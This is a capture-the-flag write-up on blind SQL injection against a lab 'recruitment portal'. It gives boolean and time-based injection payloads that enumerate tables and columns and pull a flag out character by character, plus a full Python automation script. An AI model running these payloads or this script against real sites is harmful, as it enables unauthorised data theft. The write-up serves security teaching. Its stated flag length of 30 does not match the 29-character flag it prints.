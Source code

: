 # Blind SQL Injection - CTF Challenge Writeup

## Challenge Overview
A recruitment portal that verifies Agent IDs but only returns boolean responses (Access Granted/Denied). The goal is to extract a hidden flag from the database using blind SQL injection techniques.

## Initial Analysis

1. **Access the challenge**: Visit the recruitment portal
2. **Test normal functionality**: Try valid Agent IDs (1, 2, 3, 4, 5)
3. **Identify the vulnerability**: Test for SQL injection

## Vulnerability Discovery

### Basic SQL Injection Test
```bash
# Test with basic SQL injection payload
Agent ID: 1' OR '1'='1
Result: Access Granted (confirms SQL injection)
```

### Confirming Blind SQL Injection
```bash
# Valid Agent ID
Agent ID: 1
Result: Access Granted

# Invalid Agent ID  
Agent ID: 999
Result: Access Denied

# SQL injection that should be true
Agent ID: 1' OR '1'='1
Result: Access Granted
```

## Database Enumeration

## Database Enumeration

### Discover Database Information
```bash
# Get database name
Agent ID: 1' AND DATABASE() = 'blind_sqli' -- 
Result: Access Granted (confirms database name)

# Check MySQL version
Agent ID: 1' AND VERSION() LIKE '8%' -- 
Result: Access Granted/Denied (depending on MySQL version)
```

### Find Table Names
```bash
# Check if 'flags' table exists
Agent ID: 1' AND (SELECT COUNT(*) FROM flags) > 0 -- 
Result: Access Granted (table exists)

# Extract table names from information_schema
Agent ID: 1' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='blind_sqli' AND table_name='flags') > 0 -- 
Result: Access Granted

# Find all tables in the database
Agent ID: 1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='blind_sqli') = 3 -- 
Result: Access Granted (3 tables: agents, flags, admin_users)

# Extract table names character by character
Agent ID: 1' AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema='blind_sqli' LIMIT 1 OFFSET 1),1,1) = 'f' -- 
Result: Access Granted (second table starts with 'f' - flags)
```

### Discover Column Names
```bash
# Check if 'flag_value' column exists in flags table
Agent ID: 1' AND (SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='flags' AND column_name='flag_value') > 0 -- 
Result: Access Granted (column exists)

# Extract column names character by character (if needed)
Agent ID: 1' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='flags' LIMIT 1),1,1) = 'f' -- 
Result: Access Granted (first column starts with 'f')

# List all columns in flags table
Agent ID: 1' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='flags') = 2 -- 
Result: Access Granted (flags table has 2 columns: id, flag_value)
```

### Extract Flag Length
```bash
# Test flag length
Agent ID: 1' AND LENGTH((SELECT flag_value FROM flags LIMIT 1)) = 30 -- 
Result: Access Granted (flag is 30 characters long)
```

## Flag Extraction

### Extract Flag Character by Character
```bash
# Extract 1st character
Agent ID: 1' AND SUBSTRING((SELECT flag_value FROM flags LIMIT 1),1,1) = 'C' -- 
Result: Access Granted (1st char is 'C')

# Extract 2nd character
Agent ID: 1' AND SUBSTRING((SELECT flag_value FROM flags LIMIT 1),2,1) = 'T' -- 
Result: Access Granted (2nd char is 'T')

# Extract 3rd character
Agent ID: 1' AND SUBSTRING((SELECT flag_value FROM flags LIMIT 1),3,1) = 'F' -- 
Result: Access Granted (3rd char is 'F')

# Continue this process for all 30 characters...
```

## Automated Exploitation

### Python Script
```python
import requests

url = "http://localhost:8080/check.php"

def test_payload(payload):
    data = {'id': payload}
    response = requests.post(url, data=data)
    return "Access Granted" in response.text

def extract_string(query, max_length=50):
    result = ""
    for pos in range(1, max_length + 1):
        found = False
        for char in "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789{}_-":
            payload = f"1' AND SUBSTRING(({query}),{pos},1) = '{char}' -- "
            if test_payload(payload):
                result += char
                print(f"Position {pos}: {char} (Current: {result})")
                found = True
                break
        if not found:
            break
    return result

# Enumerate tables
print("=== Database Enumeration ===")

# Get table count
for count in range(1, 10):
    if test_payload(f"1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='blind_sqli') = {count} -- "):
        print(f"Number of tables: {count}")
        break

# Extract table names
for i in range(3):  # We know there are 3 tables
    table_query = f"SELECT table_name FROM information_schema.tables WHERE table_schema='blind_sqli' LIMIT 1 OFFSET {i}"
    table_name = extract_string(table_query, 20)
    print(f"Table {i+1}: {table_name}")

# Extract columns from flags table
column_query = "SELECT column_name FROM information_schema.columns WHERE table_name='flags' LIMIT 1 OFFSET 1"
column_name = extract_string(column_query, 20)
print(f"Flags table column: {column_name}")

# Extract flag
print("\n=== Flag Extraction ===")
flag_query = "SELECT flag_value FROM flags LIMIT 1"
flag = extract_string(flag_query, 35)
print(f"Flag: {flag}")
```

## Alternative: Time-Based Blind SQLi

```bash
# Time-based extraction (if boolean method doesn't work)
Agent ID: 1' AND IF(SUBSTRING((SELECT flag_value FROM flags LIMIT 1),1,1)='C',SLEEP(3),0) -- 

# If the response takes ~3 seconds, the character is correct
# If immediate response, try next character
```

## Final Flag

After extracting all characters:
```
CTF{bl1nd_sql1_master_h4ck3r}
```

## Key Learning Points

1. **Blind SQL Injection** exploits applications that don't return data directly
2. **Boolean-based** attacks use conditional logic to infer information
3. **Character-by-character extraction** is the core technique for data exfiltration
4. **Automation** is essential for efficient exploitation of blind vulnerabilities

## Tools Used
- Web browser for manual testing
- curl for command-line testing  
- Python requests library for automation
- Custom exploitation script
